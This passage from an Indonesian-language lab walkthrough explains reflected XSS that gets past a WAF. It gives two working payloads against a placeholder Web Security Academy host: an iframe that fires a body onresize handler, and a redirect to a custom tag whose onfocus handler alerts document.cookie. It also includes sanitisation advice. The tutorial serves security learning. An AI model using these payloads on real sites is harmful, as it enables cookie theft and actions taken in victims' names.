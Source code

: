 ### Payload Iframe dengan Event `onresize`

Dengan menggunakan tag `<body>` dan atribut `onresize`, kita dapat memanggil fungsi `print()` secara otomatis. Untuk memicu event `resize` tanpa interaksi pengguna, kita menyisipkan iframe yang memuat halaman dengan payload XSS dan menggunakan event `onload` pada iframe untuk mengubah gaya `body`, yang akan memicu event `resize`.

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E" height="100%" title="Iframe Example" onload="body.style.width='100px'"></iframe>
```

### Payload Script dengan Event `onfocus`

Selain itu, dengan menggunakan tag kustom `<xss>` dan atribut `onfocus`, kita dapat menjalankan fungsi `alert(document.cookie)` secara otomatis ketika elemen tersebut difokuskan melalui hash di URL.

```html
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29+tabindex=1%3E#x';
</script>
```

### Pentingnya Validasi dan Sanitasi Input

Kerentanan XSS dapat digunakan untuk menjalankan skrip berbahaya dalam konteks pengguna yang terautentikasi, memungkinkan penyerang untuk melakukan berbagai tindakan tidak sah seperti mencuri cookie, mengubah konten halaman, atau melakukan tindakan lain atas nama pengguna. Oleh karena itu, sangat penting untuk selalu memvalidasi dan menyaring input pengguna di sisi server untuk mencegah penyuntikan skrip berbahaya.

## Kesimpulan

Eksploitasi **Reflected XSS** dalam konteks HTML dengan pembatasan WAF memerlukan kreativitas dalam memilih tag dan atribut yang masih diperbolehkan. Dengan memanfaatkan event handler yang tersedia dan teknik seperti penggunaan iframe serta tag kustom, penyerang dapat menjalankan skrip berbahaya seperti memanggil fungsi `print()` dan `alert(document.cookie)` tanpa memerlukan interaksi pengguna. Penting untuk selalu menerapkan praktik keamanan terbaik, seperti sanitasi input dan konfigurasi WAF yang tepat, untuk mencegah kerentanan ini.

## Referensi Tambahan

- [OWASP Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)
